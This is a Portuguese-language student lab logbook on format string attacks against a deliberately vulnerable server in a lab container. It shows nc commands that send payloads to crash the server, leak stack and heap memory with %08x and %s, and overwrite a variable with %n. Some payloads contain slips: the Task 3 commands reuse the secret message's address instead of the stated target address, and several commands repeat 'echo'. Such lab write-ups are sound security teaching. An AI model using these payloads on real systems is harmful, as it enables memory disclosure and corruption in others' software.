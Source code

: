 # Trabalho realizado na Semana #7

## Environment Setup: Turning Off Countermeasures

Como os sistemas operativos atuais apresentam vários mecanismos de segurança que dificultam a exploração de um ataque format string, começamos por desativar algumas das proteções do sistema, nomeadamente, a randomização do espaço de endereços (que dificulta o cálculo de endereços necessários para o nosso ataque). 

<img src="../screenshots/logbook7/setup.png" alt="setup">

Para além disso, como o nosso objetivo será injetar código na stack, o programa tem de ser compilado com `-z execstack`, para que a stack seja executável. 

## Task 1: Crashing the Program

Usamos dois terminais para inicializar dois containers, cada um correndo um servidor vulnerável. Começamos por enviar uma mensagem `hello` para o servidor através do terminal B:

```bash
$ echo hello | nc 10.9.0.5 9090
```

O output no terminal A foi o seguinte, onde vemos:
- Endereço do `buffer` de input
- Endereço da mensagem secreta
- Frame pointer da função `myprintf`
- Endereço inicial e final de uma variável `target`

<img src="../screenshots/logbook7/hello.png" alt="hello">


### Exploração do ataque

Nesta tarefa, é-nos pedido para crashar o servidor manipulando o input fornecido pelo utilizador. Deste modo, recorremos ao `%s`:

```bash
$ echo '%s' | nc 10.9.0.5 9090
```

Como a própria format string é colocada na stask, `%s` vai buscar o endereço na posição imediatamente acima, tentando imprimir a string que está nesse endereço, o que calhou numa zona inválida, isto é, fora da memória virtual do processo:

<img src="../screenshots/logbook7/task1.png" alt="task1">


## Task 2: Printing Out the Server Program’s Memory

O objetivo desta task é dar print a variáveis da memória do programa.

### Task 2.A: Stack Data

Para dar print à variável presente na stack, usamos o format specifier `%08x` para avançar o `va_list pointer` 4 bytes de cada vez (um endereço), de modo a que apontasse para a variável que queremos explorar. Assim, para calcular a distância entre a variável e o `va_list pointer` - o número de `%08x`, metemos **HERE** (48 45 52 45 em ASCII) no início e, quando este fosse impresso, saberíamos logo esta distância:

```bash
echo "HERE%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x" | nc 10.9.0.5 9090
```

<img src="../screenshots/logbook7/task2.A.PNG" alt="task2.A">

Foram necessários 64 "%08x" para imprimir **HERE**, logo existem 63 endereços na stack entre o format string e o buffer.


### Task 2.B: Heap Data

Pelos prints das tarefas anteriores, verificamos que o endereço da mensagem secreta que pretendemos dar print é 0x080b4008. Estando perante uma máquina *small-indian*, a sua codificação em string será `\x08\x40\x0b\x08`. 

Da task 2.A, sabemos que a distância entre o `buffer de input` e o início do `va_list pointer` é de 63 endereços (63 "%08x").

Ora, para dar print da mensagem secreta, basta inserirmos o seu endereço no início, seguido de 63 "%08x", terminando com "%s", que irá ler deste endereço e retornar o valor escondido:

```bash
echo echo "\x08\x40\x0b\x08%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x %s" | nc 10.9.0.5 9090
```

Por fim, obtemos o conteúdo da mensagem secreta:

<img src="../screenshots/logbook7/task2.B.PNG" alt="task2.B">


## Task 3: Modifying the Server Program’s Memory

O objetivo desta tarefa é modificar o valor da variável `target`, cujo endereço é de `0x080e5068` e tem valor inicial igual a `0x11223344`.

### Task 3.A: Change the value to a different value

O format specifier `%n` escreve o número de caracteres que foram lidos até ao momento na memória. De facto, `%n` trata o valor apontado pelo `va_list pointer` como um endereço de memória, escrevendo para esse local. Desta forma, podemos usá-lo para alterar o valor de `target`.

A abordagem é muito semelhante à da task 2.B:
- escrever no início do endereço de memória de `target`
- escrever 63 "%08x" para o pointer avançar 63 endereços
- terminar com "%n" para alterar o valor no endereço de `target`

```bash
echo echo "\x08\x40\x0b\x08%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x %n" | nc 10.9.0.5 9090
```

<img src="../screenshots/logbook7/task3.A.png" alt="task3.A">

Verificou-se que o valor de `target` foi alterado para `0x000001fd` (509 em decimal), pelo que foram escritos 4 (endereço de `target`) + 63 x 8 ("%08x") + 1 (espaço branco) caracteres antes do `%n`.

### Task 3.B: Change the value to 0x5000

Para alterar o valor de `target` para 0x5000 (20480 em decimal), teremos que escrever 20480 caracteres antes de `%n`. Sendo que o endereço já ocupa 4 bytes e precisamos de 63 `%08x` para avançar o va_list pointer, ainda precisamos de 20480 - 4 - 63 x 8 = 19972 caracteres.

Assim, precisamos de `%.19972x` antes de `%n`:

```bash
echo echo "\x08\x40\x0b\x08%.19972x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x %n" | nc 10.9.0.5 9090
```

<img src="../screenshots/logbook7/task3.B.png" alt="taskB.A">

